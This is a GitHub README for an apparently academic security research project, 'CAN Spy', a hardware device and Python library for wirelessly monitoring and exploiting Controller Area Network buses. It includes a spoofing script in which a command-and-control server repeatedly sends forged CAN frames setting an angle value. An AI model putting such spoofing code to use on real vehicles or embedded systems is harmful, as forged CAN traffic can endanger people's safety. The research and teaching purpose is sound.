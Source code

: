 # CAN Spy

A practical hardware device and software tool for wirelessly monitoring and exploiting Controller Area Network (CAN) systems. Strictly for educational and security research purposes. This project was developed as the course project for UCLA ECE 202A Embedded Systems taken Fall 2024 with professor Mani Srivastava.

For more information visit the [project site](https://roryhemmings.com/CAN-spy)

![Hardware Schematic](docs/media/hardware-schematic.png)
![MCU to CAN interface](docs/media/mcu-can-interface.png)
![MCU connections](docs/media/mcu-connections.png)
![Software Diagram](docs/media/software-diagram.png)
![Hardware Setup Photo](docs/media/hardware-setup/multimeter.jpg)

## Basic library use

The python package is located in the `can_spy` directory. For setup instructions and basic script usage visit the [package readme](can_spy/README.md)

### Spoofing Example:
```py
#!/usr/bin/python3

import asyncio
import random

from can_spy.can_packet import CanPacket
from can_spy.c2_server import C2Server


async def handle_client(websocket):
    angle = random.randint(15, 60)
    angle = 30
    while True:
        print("Set angle to 30")
        packet = CanPacket(
            data=angle.to_bytes(1, byteorder='little', signed=True),  # Actual byte level payload
            timestamp=0, # Arbitrary in this case
            can_id=0x10,
            length=1
        )

        await websocket.send(packet.serialize())
        await asyncio.sleep(0.5)

def main():
    """Spoofing attack example script"""

    c2 = C2Server(client_handler=handle_client)
    c2.serve_forever()
        
if __name__ == "__main__":
    main()
```